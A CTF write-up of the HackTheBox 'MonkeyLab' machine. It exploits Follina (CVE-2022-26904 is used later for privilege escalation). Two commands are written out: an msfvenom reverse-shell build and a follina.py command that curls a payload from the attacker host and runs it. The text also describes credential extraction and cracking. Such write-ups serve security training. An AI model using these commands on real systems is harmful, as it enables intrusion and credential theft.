 ```yaml
---
layout: posts
title: "HTB Business - MonkeyLab"
tags: writeup, hackthebox, ctf
---
```


This is an "easy" machine from [HackTheBox Business CTF](https://www.hackthebox.com/events/htb-business-ctf-2022).

Enumeration:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/1.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/2.png)
{: refdef}

<p style='text-align: justify;'>
So looking at the port 8080 we can see a page that is looking for documents to scan. This gave us a first impression that the windows machine could be vulnerable to a recent vulnerability named follina. We are going to use the following script to get a foothold: https://github.com/chvancooten/follina.py
<br>
Clone the repo, go inside it, create a reverse shell and place it under the www directory within the script folder:
</p>

```msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.83 lport=445 -f exe -o shell.exe```

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/3.png)
{: refdef}

<p style='text-align: justify;'>
Ignore the other binaries, they are there because of enumeration inside the machine.
<br>
Set up a listener on port 445 and execute the following command on the script root folder:
</p>

```python follina.py -t docx -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c mkdir C:\temp && curl http://10.10.14.83:8080/shell.exe -o C:\temp\shell.exe && C:\temp\shell.exe'" -u 10.10.14.83 -P 8080```


<p style='text-align: justify;'>
This script will create a docx document that we are going to upload to the service listening on port 8080:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/4.png)
{: refdef}

<p style='text-align: justify;'>
After a minute or two we get a callback to our server running on port 8080 to retrieve the shell executable and a few seconds later we get the callback on our listener on port 445:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/5.png)
{: refdef}

<p style='text-align: justify;'>
So after enumerating for a while and running winPeas.exe i found two interesting things. First we got the credentials for the current user (they are at the AutoLogon registry):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/6.png)
{: refdef}

<p style='text-align: justify;'>
Next, i discover that the current user has wsl.exe installed on their session. Veryfing his privileges, we can see that he can use every command as sudo:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/7.png)
{: refdef}

Knowing this, we can extract shadow and passwd files:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/8.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/9.png)
{: refdef}

<p style='text-align: justify;'>
We crack the files using unshadow (to create the john hash) and john. We obtain the following credentials:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/10.png)
{: refdef}

<p style='text-align: justify;'>
You can verify that the credentials are valid (on the windows machine) using a lot of techiniques but since i wanted to see what the user could access, i used runasCS.exe to get a shell as the Infinity user:
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/11.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/12.png)
{: refdef}

<p style='text-align: justify;'>
Since we have two valid users, we can use CVE-2022-26904 to escalate privileges. Metasploit has a module to explore this. You need credentials of one user (Infinity) and a meterpreter session from another user (Anomaly):
</p>

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/13.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/14.png)
{: refdef}

We are now ready to use the msfconsole module:

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/15.png)
{: refdef}

{:refdef: style="text-align: center;"}
![rustscan](/assets/ctfs/htb_dirty_money/monkeylab/16.png)
{: refdef}

